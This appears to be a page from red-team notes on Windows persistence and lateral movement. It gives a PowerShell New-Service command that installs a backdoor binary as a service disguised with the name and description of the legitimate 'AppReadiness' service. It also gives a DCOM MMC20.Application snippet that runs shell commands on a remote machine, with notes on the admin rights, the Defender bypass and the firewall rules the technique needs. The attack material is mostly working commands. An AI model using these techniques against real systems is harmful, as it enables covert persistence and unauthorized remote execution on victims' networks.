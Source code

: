 ### Windows Services

{% tabs %}
{% tab title="PowerShell" %}
Create a service that can start automatically or on-demand as needed.

```powershell
New-Service -Name "AppReadiness" -BinaryPathName "$backdoor_path" -Description "Gets apps ready for use the first time a user signs in to this PC and when adding new apps."
```
{% endtab %}

{% tab title="cmd.exe" %}
TODO: add more
{% endtab %}
{% endtabs %}

### Execute (remote) commands with DCOM

[https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)

Win32\_DCOMApplication class. This COM object allows you to script components of MMC snap-in operations.

```powershell
$com = [type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","$env:COMPUTERNAME")
$obj = [System.Activator]::CreateInstance($com)
$obj.Document.application.ExecuteShellCommand("C:\Windows\System32\Calc.exe",$null,$null,"7")
```

For this to work, you must also be local administrator of the remote system, Windows Defender must be bypassed or disabled, and (to do this remotely) the Windows Advanced Security Firewall must have the following rules enabled:

* COM+ Network Access (port 135)
* A rule to let dynamic ports for C:\windows\system32\mmc.exe in. Regular RPC-EPMAP rules from other services won’t work as they only allow traffic to svchost.exe.

If the firewall doesn’t let you in, you may receive messages such as:

> Exception calling “CreateInstance” with “1” argument(s): “Retrieving the COM class factory for remote component with CLSID {C08AFD90-F2A1-11D1-8455-00A0C91F3880} from machine target failed due to the following error: 800706ba target.”

The ShellExecute method of the object takes 4 parameters:

1. The complete path to the executable
2. The directory to be considered as current directory; you may want to usually pass NULL
3. A list of arguments to pass along to the executable. In case there is none, you can also pass NULL
4. The state of the windows (1 - Normal, 3 - maximized, 7 - minimized).&#x20;

Usually, you will want to use 7 as a value (minimized). You do not get any output back.

### Replacing Windows Binaries
